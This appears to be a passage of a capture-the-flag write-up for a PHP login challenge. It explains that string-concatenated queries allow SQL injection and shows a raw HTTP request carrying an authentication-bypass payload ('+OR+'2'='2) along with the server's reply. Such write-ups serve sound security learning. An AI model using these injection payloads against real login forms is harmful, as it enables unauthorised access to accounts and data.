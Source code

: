 ```php
                    } else {
                        if ($result->num_rows != 0) {
                            if (mysqli_fetch_array($result, MYSQLI_ASSOC)["username"] == "flagman69") {
                                echo "<p style='color: green;'>" . $FLAG . " :o</p>";
                            } else {
                                echo "<p style='color: green;'>Logged in :)</p>";
                            }
                        } else {
                            echo "<p style='color: red;'>Auth fail :(</p>";
                        }
                    }
                    
                }
            }
        }

    ?>

    <form method="POST">
        <span>Username: </span><input type="text" name="username">
        <br>
        <br>
        <span>Password: </span><input type="password" name="password">
        <br>
        <br>
        <input type="submit">
    </form>
    </div>

</body>
</html>
```

Authenticating with username `flagman69` should print the flag. The query is concatenating strings, so the website is vulnerable to SQL injection.

An additional control is present at the beginning on password value passed: a `strpos` function is used to check if the password contains the char `1`.

Trying to bypass the password check with a SQL injection will not print the flag after a correct login, maybe the user is not present.

```
POST / HTTP/1.1
Host: challs.houseplant.riceteacatpanda.wtf:30001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://challs.houseplant.riceteacatpanda.wtf:30001
Connection: close
Referer: http://challs.houseplant.riceteacatpanda.wtf:30001/
Upgrade-Insecure-Requests: 1

username=flagman69&password='+OR+'2'='2

HTTP/1.1 200 OK
Date: Fri, 24 Apr 2020 20:55:14 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.30
Vary: Accept-Encoding
Content-Length: 757
```